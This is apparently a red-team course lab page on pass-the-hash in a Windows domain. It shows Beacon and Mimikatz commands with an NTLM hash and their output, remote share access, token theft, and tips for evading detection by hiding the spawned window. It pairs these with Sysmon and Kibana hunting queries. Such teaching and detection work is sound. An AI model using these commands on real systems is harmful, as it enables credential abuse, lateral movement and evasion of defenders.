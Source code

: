 Pass the Hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password, rather than the plaintext. It works by starting a new logon session with a fake identity and then replacing the session information with the domain, username and NTLM hash provided.

This modification process requires patching of LSASS memory which is a high-risk action, requires local admin privileges and not all that viable if Protected Process Light (PPL) is enabled.

Beacon has a dedicated `pth` command which executes Mimikatz in the background.
```shell
> pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : DEV
program    : C:\Windows\system32\cmd.exe /c echo 1cbe909fe8a > \\.\pipe\16ca6d
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  5540
  |  TID  5976
  |  LSA Process is now R/W
  |  LUID 0 ; 4069467 (00000000:003e185b)
  \_ msv1-0   - data copy @ 0000024DC099D3D0 : OK !
  \_ kerberos - data copy @ 0000024DC1673918
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000024DC14503D8 (32) -> null
```

It passes the token over a named pipe which Beacon then impersonates automatically.
```shell
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     07/05/2021 19:26:53   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     07/05/2021 19:24:18   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/15/2021 14:58:02   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     07/09/2021 11:57:05   pagefile.sys
```

Sysmon will record the process creation event for `cmd.exe` including the command line arguments `echo 1cbe909fe8a > \\.\pipe\16ca6d.` This unusual pattern can be searched for in Kibana:
```shell
event.module: sysmon and event.type: process_start and process.name: cmd.exe and process.command_line: *\\\\.\\pipe\\*
```

Pass-the-hash will also generate event `4624` with logon type 9.  This event records the executing user's Logon ID, which we can cross reference from the process creation event above.
```shell
event.code: 4624 and winlog.logon.id: 0xe6d64
```

The **TargetUserName** and **TargetOutboundUserName** tells us that **NT AUTHORITY\SYSTEM** has impersonated **jking**.

To avoid the `\\.\pipe\` indicator, we can execute Mimikatz manually and specify our own process.
```shell
beacon> mimikatz sekurlsa::pth /user:jking /domain:dev.cyberbotic.io /ntlm:4ffd3eabdce2e158d923ddec72de979e
```

If no `/run` parameter is specified, then `cmd.exe` is started.  However, this can actually cause the process window to appear on the users desktop.  This is less of a concern if you're running as `SYSTEM` without any desktop session associated with it, but has obvious implications otherwise.

Use a process that doesn't have a console or use `"powershell -w hidden"` to create a hidden window.

Then once the spawned process has started, impersonate it using `steal_token`.
```shell
beacon> steal_token 6284
[+] Impersonated NT AUTHORITY\SYSTEM
```

When finished, use `rev2self` and `kill` the spawned process.
```shell
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 6284
[*] Tasked beacon to kill 6284
[+] host called home, sent: 12 bytes
```

>Use both methods for executing pass-the-hash and find the evidence in Kibana.

